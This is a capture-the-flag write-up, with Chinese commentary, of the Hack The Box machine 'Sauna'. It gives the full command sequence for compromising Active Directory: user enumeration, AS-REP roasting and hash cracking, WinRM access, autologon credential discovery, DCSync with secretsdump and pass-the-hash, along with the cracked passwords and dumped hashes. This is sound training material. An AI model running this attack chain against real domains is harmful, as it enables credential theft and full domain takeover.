

###### tags: `Hack the box` `HTB` `Easy` `Windows`

# Sauna
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.95.180 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.95.180:53
Open 10.129.95.180:80
Open 10.129.95.180:88
Open 10.129.95.180:135
Open 10.129.95.180:139
Open 10.129.95.180:389
Open 10.129.95.180:593
Open 10.129.95.180:636
Open 10.129.95.180:3269
Open 10.129.95.180:3268
Open 10.129.95.180:445
Open 10.129.95.180:464
Open 10.129.95.180:5985
Open 10.129.95.180:9389
Open 10.129.95.180:49669
Open 10.129.95.180:49674
Open 10.129.95.180:49673
Open 10.129.95.180:49676
Open 10.129.95.180:49697
Open 10.129.95.180:49720

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-05-31 15:55:45Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap可以掃到domain
```
┌──(kali㉿kali)-[~/htb]
└─$ nmap -n -sV --script "ldap* and not brute" 10.129.95.180

389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name)
| ldap-search: 
|   Context: DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: DC=EGOTISTICAL-BANK,DC=LOCA
```

查看`http://10.129.95.180/about.html#team`並利用[kerbrute.py](https://github.com/fortra/impacket/blob/686898e5182084777be2be6e2daa20c499fb87bf/examples/kerbrute.py)
```
┌──(kali㉿kali)-[~/htb]
└─$ cat user.txt                                                                                
Fergus Smith
fergus.smith
fergus
fsmith
Hugo Bear
hugo.bear
hugo
hbear 
Steven Kerb
steven.kerb
steven
skerb
Shaun Coins
sharun.coins
sharun
scoins 
Bowie Taylor
bowie.taylor
bowie
btaylor
Sophie Driver
sophie.driver
sophie
sdriver

┌──(kali㉿kali)-[~/htb]
└─$ python3 kerbrute.py -users user.txt -domain EGOTISTICAL-BANK.LOCAL -dc-ip 10.129.95.180 -outputfile hashes.asreproast
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Valid user => fsmith [NOT PREAUTH]
[*] No passwords were discovered :'(
```

`fsmith`這個user可以不用`preauth`，用`AS-REP Roasting`
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.129.95.180 EGOTISTICAL-BANK.LOCAL/fsmith -no-pass -request
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:9fd69adae6b6501a317fbb5c396c2f7c$75032e26f712d50d124834e9d6af974130ae6f787424e9cc8e9d062e1fab7762d1a8cdd713a269cb86338dfcb60333cbe84327fc7fb7da076ce77a6b9cd4f4c2dc291dff64c5879b58f7c1337dc0d3f7d3aa55e1d9f9bcd71bb7420f488c344f244c6bab32b984bd1f18739000d8a3664cd056779032012df660d02c68a5966f14c443a62cee45b6fc0826a00a175c83dbdd4c6f427229e0f5f2852ce767d3dedd02f93d258793f57889ce36f3246877249587d9a54415c81091881003a40e45713167e3e83e0bc2c500c4df6b368f2d4148bfe5ce0f349a2ef9c5fb0395352cdea004e688259ad42170a19467c69f2cc02711c2eed30d16c470031dbded6916
```

john破，得密碼`Thestrokes23`
```
┌──(kali㉿kali)-[~/htb]
└─$ john fsmith.asreproast --wordlist=/home/kali/rockyou.txt

Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL) 
```

用`winrm`登入，在`C:\Users\FSmith\Desktop`可得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23

*Evil-WinRM* PS C:\Users\FSmith\Desktop> type user.txt
fbd0c700d0fff9dfdc0719e394ffa733
```

用`winpeas`
```
*Evil-WinRM* PS C:\Users\FSmith\Desktop> upload /home/kali/htb/winPEASx64.exe

*Evil-WinRM* PS C:\Users\FSmith\Desktop> ./winPEASx64.exe

ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

```

用`sharphound.ps1`
```
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> upload /home/kali/htb/SharpHound.ps1

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> Import-Module .\Sharphound.ps1
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc_loanmgr\Documents\
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> dir


    Directory: C:\Users\svc_loanmgr\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/31/2024  10:09 AM          11535 20240531100957_BloodHound.zip
-a----        5/31/2024  10:07 AM        1308348 SharpHound.ps1
-a----        5/31/2024  10:09 AM           8601 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin


*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> download 20240531100957_BloodHound.zip
```

丟`bloodHound`
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```



用`DCsync`
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump -just-dc-user administrator EGOTISTICAL-BANK.LOCAL/svc_loanmgr:"Moneymakestheworldgoround\!"@10.129.95.180

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
[*] Cleaning up...
```

用Administrator的hash登入，在`C:\Users\Administrator\Desktop`得root
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.95.180 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e 

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
62f77a8ddc0ef41036e762249cd5384f
```